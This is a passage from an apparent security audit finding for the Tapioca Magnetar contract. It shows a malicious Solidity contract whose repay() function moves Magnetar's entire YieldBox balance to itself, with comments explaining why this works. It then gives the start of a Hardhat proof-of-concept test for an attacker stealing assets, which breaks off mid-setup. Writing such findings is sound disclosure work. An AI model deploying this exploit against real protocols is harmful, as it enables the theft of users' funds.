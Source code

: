 ```solidity
    assetId = realSingularityMarket.assetId();
    yieldBox = IYieldBoxBase(realSingularityMarket.yieldBox());
  }

  function setMagnetar(address _magnetar) external {
    magnetarContract = _magnetar;
  }


  //@audit => This is the function that will be called by the Magnetar contract
  //@audit => This contract will be granted all permission over the Mangetar contract in the YieldBox, which will allow it to transfer all that Magnetar owns to any address
  //@audit-info => repay() will transfer the singularity.assetId() from the YieldBox!
  function repay(
      address from,
      address to,
      bool skim,
      uint256 part
  ) external returns (uint256 amount) {

    uint magnetarAssetBalance = yieldBox.balanceOf(magnetarContract,assetId);
    yieldBox.transfer(magnetarContract, address(this), assetId, magnetarAssetBalance);

    amount = type(uint256).max; 
  }
}
```

3. Create a new file to reproduce this PoC, magnetar_remove_assets_from_singularity_PoC.test.ts
  - Make sure to create this new test file under the [`tapioca-periph-audit/test/`](https://github.com/Tapioca-DAO/tapioca-periph-audit/tree/023751a4e987cf7c203ab25d3abba58f7344f213/test) folder

```
import { expect } from 'chai';
import hre, { ethers, config } from 'hardhat';
import { BN, register, getSGLPermitSignature } from './test.utils';
import {
    loadFixture,
    takeSnapshot,
} from '@nomicfoundation/hardhat-network-helpers';

describe('MagnetarV2', () => {

    describe('repay', () => {
      it('should remove asset from Singularity and Attacker will steal those assets', async () => {
        const {
            weth,
            createWethUsd0Singularity,
            wethBigBangMarket,
            usd0,
            usdc,
            bar,
            wethAssetId,
            mediumRiskMC,
            deployCurveStableToUsdoBidder,
            initContracts,
            yieldBox,
            magnetar,
            deployer,
            attacker,
        } = await loadFixture(register);

        await initContracts();

```